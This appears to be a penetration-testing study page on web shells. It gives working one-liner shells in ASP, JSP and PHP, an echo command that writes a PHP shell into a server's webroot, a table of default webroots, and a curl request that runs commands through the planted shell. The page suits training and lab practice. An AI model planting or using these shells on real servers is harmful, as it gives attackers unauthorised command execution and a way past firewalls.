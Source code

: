 ```yaml
---
title: Web Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - webshell
  - reverse-shells
---
```


# Web shells

??? abstract "All about shells"
    | **Shell Type** | **Description** |
    | ------- | -------- |
    | [`Reverse shell`](reverse-shells.md) | Initiates a connection back to a "listener" on our attack box.  |
    | [`Bind shell`](bind-shells.md)       | "Binds" to a specific port on the target host and waits for a connection from our attack box.  |
    | [`Web shell`](web-shells.md)         | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |


!!! example "Preconfigured webshells in Kali linux"
    Go to /usr/share/webshells/

??? abstract "Other resources"
    See [reverse shells](reverse-shells.md)


A Web Shell is typically a web script that accepts our command through HTTP request parameters, executes our command, and prints its output back on the web page.

A web shell script is typically a one-liner that is very short and can be memorized easily.


## Some basic web shells

### asp

```asp
<% eval request("cmd") %>
```


### jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### php

```php
<?php system($_REQUEST["cmd"]); ?>
```

- [Pentesmonkey webshell](pentesmonkey.md).
- [WhiteWinterWolf webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php).

## How to exploit a web shell

### File upload vs Remote code execution

**1.** **FILE UPLOAD: By abusing an upload feature.** We would place this web shell script into the remote host's web directory to execute the script through the web browser.

**2.** **REMOTE CODE EXECUTION: By writting our one-liner shell to the webroot to access it over the web**. This would be if onle have remote command execution as a exploit vector. Here an example for bash:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

So, for the second way of exploitation, it's relevant to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server | Default Webroot |
| ------------ | ----------------- |
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ | 
| XAMPP | C:\xampp\htdocs\ | 

### Accessing the web shell

We can access to the web shell using the browser. Or Curl:

```shell-session
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

A  benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using. 


## Tools

[About webshells](https://github.com/BlackArch/webshells).

[Laudanum](laudanum.md)

[nishang](nishang.md)
